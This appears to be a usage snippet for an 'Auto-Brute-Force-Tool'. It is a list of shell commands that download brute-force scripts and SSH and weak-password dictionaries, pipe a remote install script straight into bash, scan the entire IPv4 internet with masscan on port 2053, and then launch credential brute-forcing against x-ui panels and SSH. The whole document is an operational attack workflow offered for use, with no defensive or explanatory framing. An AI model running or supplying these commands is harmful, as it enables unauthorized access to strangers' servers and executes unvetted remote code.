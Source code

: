     curl -o xui.py "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/xui.py"
    curl -o password.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/password.txt"
    curl -o username.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/username.txt"
    curl -o 1.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/1.txt"
    curl -o nz.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/nz.txt"
    curl -o xd.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/xd.txt"
    curl -o xuiyg.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/xuiyg.txt"
    bash <(curl -Ls https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/main/install_tools.sh | tr -d '\r')
    curl -o username.txt "https://raw.githubusercontent.com/wwl012345/PasswordDic/refs/heads/main/%E7%94%A8%E6%88%B7%E5%90%8D%E5%AD%97%E5%85%B8/SSH-username-top30.txt"
    curl -o password.txt "https://raw.githubusercontent.com/wwl012345/PasswordDic/refs/heads/main/%E5%BC%B1%E5%8F%A3%E4%BB%A4%E5%AD%97%E5%85%B8/2021passwd-CN-Top200.txt"
    curl -o scan_xui.go "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/scan_xui.go"
    curl -o password.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/ssh_password.txt"
    curl -o username.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/ssh_username.txt"

    screen -v
    sudo apt-get update && sudo apt-get install screen -y
    screen -S aissist
    python3 xui.py
    screen -r aissist
    masscan --exclude 255.255.255.255 -p2053 --max-rate 100000 -oG results2053.txt 0.0.0.0/0
    HOME=/root go run scan_xui.go

